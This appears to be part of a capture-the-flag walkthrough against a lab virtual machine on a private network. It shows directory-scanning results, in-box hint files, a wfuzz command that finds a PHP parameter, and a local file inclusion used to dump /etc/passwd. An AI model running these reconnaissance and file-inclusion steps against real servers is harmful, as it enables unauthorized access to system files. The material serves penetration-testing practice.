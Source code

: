 
# dirsearch found:
    ->>
    [21:14:44] 200 -  131B  - /dev
    [21:14:48] 200 -  147B  - /image.php
    [21:14:48] 200 -  136B  - /index.php
    [21:14:49] 200 -  136B  - /index.php/login/
    [21:14:49] 301 -  319B  - /javascript  ->  http://192.168.0.110/javascript/
    [21:14:59] 403 -  302B  - /server-status/
    [21:14:59] 403 -  301B  - /server-status
    [21:15:07] 200 -    3KB - /wordpress/wp-login.php
    [21:15:07] 200 -   11KB - /wordpress/
    /secret.txt           (Status: 200) [Size: 412]  

    /dev:

    hello,
    now you are at level 0 stage.
    In real life pentesting we should use our tools to dig on a web very hard.
    Happy hacking.

    /secret.txt:

    Looks like you have got some secrets.

    Ok I just want to do some help to you. 

    Do some more fuzz on every page of php which was finded by you. And if
    you get any right parameter then follow the below steps. If you still stuck 
    Learn from here a basic tool with good usage for OSCP.

    https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
    


    //see the location.txt and you will get your next move//

>> Fuzz the php pages:
>> # wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 --hw 12 http://192.168.0.110/index.php?FUZZ=location.txt

    000001601:   200        8 L      42 W       334 Ch      "file"   
>> content : well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
>> this parameter having lfi vulnerbility: checking /etc/passwd

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false